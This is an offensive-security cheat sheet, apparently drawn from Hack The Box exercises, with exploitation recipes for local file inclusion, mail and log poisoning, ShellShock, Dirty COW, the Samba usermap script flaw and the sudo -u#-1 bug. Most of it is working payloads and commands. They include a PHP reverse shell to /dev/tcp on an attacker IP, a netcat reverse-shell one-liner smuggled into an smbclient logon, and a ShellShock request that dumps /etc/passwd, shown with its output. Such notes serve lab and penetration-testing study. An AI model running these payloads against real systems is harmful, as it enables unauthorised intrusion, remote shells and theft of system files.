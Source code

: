 # Local File Inclusion (LFI)
## Example
* assume website provides functionality to view files
* if not properly sanitized input like ``../../../../../etc/passwd`` may be possible
* try to bypass filters with double encoding. e.g.: 
```
GET /includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd
```

## Using phpfilter
```
http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index
```

## PHPInfo LFI
* see https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf
* basic idea: race condition due to saving request (multipart) in file under /tmp/XYZ
* the filename can be found in the phpinfo page under variables
* the request should be as big as possible to increase processing time to win the race
* if you are able to browse/access this file before it gets deleted you have RCE

## LFI + SMPT Reverse Shell
* assume you have local file inclusion like:
```
GET //vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action HTTP/1.1
```
* additionally assume SMTP Port (25) is open
```
# connect
$> telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.

# wait for prompt
220 beep.localdomain ESMTP Postfix

# if enhanced
EHLO asdf

# if not
HELO asdf

# verify receipient
VRFY fanis@localhost
252 2.0.0 fanis@localhost # if exist
550 5.1.1 <asdf>: Recipient address rejected: User unknown in local recipient table # if not

# send mail with payload
mail from: manu@manu.ch
250 2.1.0 Ok
rcpt to: fanis@localhost
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system("/bin/bash -i >& /dev/tcp/10.10.14.4/3141 0>&1"); ?>

.
250 2.0.0 Ok: queued as E2517D92FD

```
* setup listener and send request to:
```
/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/fanis%00&module=Accounts&action
```

# Log Poisoning
* For this example a LFI is necessary to work
* prerequisite: accessing the http-log file is needed
* since your user agent is logged for example in /var/log/apache2/access.log you have full control
* modify user agent for example to: ``<?php exec("whoami");?>``
* browse to access log of web server

# ShellShock
## CVE-2014-6271
```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

## Example from HTB (Shocker)

**Request:**
```
GET /cgi-bin/user.sh HTTP/1.1

Host: 10.10.10.56

User-Agent: () { :;};echo -e "\r\n$(/bin/cat /etc/passwd)"

Connection: close

```

**Response:**
```
HTTP/1.1 200 OK
Date: Tue, 06 Oct 2020 19:40:22 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 1687

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash

Content-Type: text/plain
Just an uptime test script
 15:40:23 up 15 min,  0 users,  load average: 0.00, 0.00, 0.00

```

# Dirtyc0w Kernel Exploit (Linux)
See https://github.com/firefart/dirtycow
1. Transfer .c file to target
2. compile it with ``gcc -pthread dirty.c -o dirty -lcrypt``
3. execute the binary ``./dirty newpassword``
4. user ``firefart`` is created with root privileges
# CVE-2007-2447 (smb usermap script)
## Example from Lame (HTB)
```
smbclient //10.10.10.3/tmp
smb: \> logon "/=`nohup mkfifo /tmp/manununu; nc 10.10.14.41 2222 0</tmp/manununu | /bin/sh >/tmp/manununu 2>&1; rm /tmp/manununu`"
```

# MS17-010 - CVE-2017-0143 (EternalBlue)
* see https://github.com/k4u5h41/MS17-010_CVE-2017-0143

# Sudo underflow bug (CVE-2019-14287)
```
sudo -u#-1 /bin/bash
```
